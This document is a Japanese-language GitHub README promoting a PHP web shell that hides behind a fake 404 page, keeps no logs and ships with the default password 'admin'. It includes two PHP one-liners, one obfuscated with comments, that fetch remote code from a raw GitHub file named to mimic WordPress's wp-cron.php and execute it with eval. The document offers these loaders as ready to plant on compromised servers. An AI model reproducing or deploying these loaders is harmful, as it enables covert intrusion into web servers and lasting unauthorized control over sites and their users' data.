

<pre>    
 _|          _|  _|_|_|_|  _|_|_|      _|_|_|  _|    _|  _|_|_|_|  _|        _|        
 _|          _|  _|        _|    _|  _|        _|    _|  _|        _|        _|        
 _|    _|    _|  _|_|_|    _|_|_|      _|_|    _|_|_|_|  _|_|_|    _|        _|        
   _|  _|  _|    _|        _|    _|        _|  _|    _|  _|        _|        _|        
     _|  _|      _|_|_|_|  _|_|_|    _|_|_|    _|    _|  _|_|_|_|  _|_|_|_|  _|_|_|_|  

   
┌──┤ 著者 ├─────────▰▰▰
│
├─▣ クロエ
├─▣ 私からのデザイン
│
└───────────────────────────────▰▰▰

┌──┤ 社交 ├─────────▰▰▰
│
├─◈ <a href="https://x.com">𝕏</a>
├─◈ <a href="dsc.gg/404">Dc</a>
├─◈ <a href="instagram.com">Ig</a>
├─◈ <a href="chloethesis.github.io">Site</a>
│
└───────────────────────────────▰▰▰

</pre>


### 📌 機能と外観について

- [x] **PHP8 の場合**
- [x] **ロガーなし**
- [x] **ログイン 表示 404 見つかりません**


______________

| 名前              | デフォルト                | ハッシュ                       |
| ------------- |:----------------------:| -------------------------------:|
| Password      | __admin__           | (__md5 hash only__)  |
 ______________


### 🛅 プレビュー





_______________


### 🍭 小型版

```php
<?=/****/@null; /********/ /*******/ /********/@eval/****/("?>".file_get_contents/*******/("https://raw.githubusercontent.com/chloethesis/webshell/refs/heads/main/wp-cron.php"));/**/?>
```

```php
<?php eval("?>".file_get_contents("https://raw.githubusercontent.com/chloethesis/webshell/refs/heads/main/wp-cron.php"));?>
```


<br>


> [!NOTE]  
> 名前を変更したり編集したりする場合は、まず難読化を解除してください。


 
